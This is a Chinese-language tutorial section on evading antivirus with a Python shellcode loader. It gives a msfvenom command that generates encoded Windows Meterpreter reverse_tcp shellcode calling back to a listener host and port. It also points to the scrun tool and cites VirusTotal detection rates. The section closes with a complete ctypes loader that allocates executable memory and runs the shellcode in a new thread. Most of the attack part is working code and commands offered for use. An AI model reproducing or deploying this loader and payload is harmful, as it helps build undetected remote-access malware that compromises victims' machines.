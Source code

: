 3 python 加载器
============

3.1 方法 1：HEX 加密 (VT 免杀率 3/56)
-----------------------------

这是使用了 k8 的方法：`[https://www.cnblogs.com/k8gege/p/11223393.html](https://www.cnblogs.com/k8gege/p/11223393.html)`k8 的工具 scrun 不仅提供了加载 python 代码，还能加载 C#。

先用 msfvenom 生成一个 c 格式的 shellcode

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f c -o shell.c
```

把 shellcode 转成 hex，我这就也用 k8 飞刀了。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbhLPAFm8tNm9vdj3pDgicUPGeFHmTMicsGx92xpBFhfSJZSemeRn44llA/640?wx_fmt=png)  

然后下载这里的工具：`[https://github.com/k8gege/scrun](https://github.com/k8gege/scrun)`

使用`python ScRunHex.py hexcode`就可以加载执行 shellcode 了

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbz5cWo4Tk5wia0Gm1xvFZzff95FtCV21vz32L0cIH0dSDbAJksLLbJjg/640?wx_fmt=png)  

msf 中正常上线

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbIa8MkVfv0JvDGia0aFj5ASBE2MB5mZXDpDMOJUvx2Nib3BicaWPGpAc2Q/640?wx_fmt=png)  

virustotal.com 上`ScRunHex.py`查杀率 3/56

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbrZdccIwxfO1ic3F2m5lVH8LwN6YTZNA2AlGhyLQqy5xzqhcZFibWaM2A/640?wx_fmt=png)  

这里也可以直接用`scrun.exe`来直接执行 hex 代码，不过编译好的`scrun.exe`早就被各大杀软加特征库里了 (VT 免杀率 41/71)，还是自己编译的好一些。

其实`ScRunHex.py`也可以编译成 exe，代码需要修改一下。

```
#scrun by k8gege
import ctypes
import sys
shellcode = bytearray(("shellcode-hexcode").decode("hex"))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```
